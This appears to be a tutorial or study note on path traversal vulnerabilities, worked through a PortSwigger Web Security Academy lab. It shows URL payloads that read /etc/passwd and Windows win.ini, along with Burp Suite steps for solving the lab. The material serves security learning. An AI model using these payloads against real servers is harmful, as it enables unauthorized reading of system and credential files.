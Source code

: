 # Path Traversal Vulnerability

## Definition

Path traversal (or directory traversal) vulnerabilities allow attackers to access arbitrary files on a server. This can expose sensitive data, application files, or system credentials. If an attacker can also write to these files, they may modify application behavior or gain full control of the server.

## Affected Files / Components

1. Application code and data
2. Credentials for back-end systems
3. Sensitive operating system files

--- 
## Exploitation Example

### Scenario

A shopping app loads images using URLs like:

```
<img src="/loadImage?filename=218.png">
```

The `loadImage` endpoint retrieves files from `/var/www/images/` by appending the requested filename.

### Code / URL Example

```
/var/www/images/218.png
```

#### Exploit Example

An attacker can request:

```
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

This resolves to:

```
/var/www/images/../../../etc/passwd → /etc/passwd
```

On Windows, both `../` and `..\` work similarly:

```
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```

This allows attackers to access sensitive files on the server.

---
## Lab: File Path Traversal (Simple Case)

**Lab URL:**  
[Web Security Academy Lab](https://0af20004033370f8801cda2600c40021.web-security-academy.net/)  
_Must be opened in PortSwigger Browser within Burp Suite_

### Steps to Solve:

4. Open **Burp Suite**
5. Go to **Proxy** tab
6. Load the website using **PortSwigger Browser**
7. Open **HTTP History** in the Proxy tab
8. Find requests to `loadimage?filename=` (disable all filters in Burp to view these requests)
9. Select a request and send it to **Repeater**
10. Modify the file path in the **Repeater** following the example above
11. Solution:
    
    ```
    GET /image?filename=/../../../etc/passwd
    ```

---
## Additional Notes

- Defenses against path traversal include input validation, using allowlists for file paths, and restricting access to sensitive directories.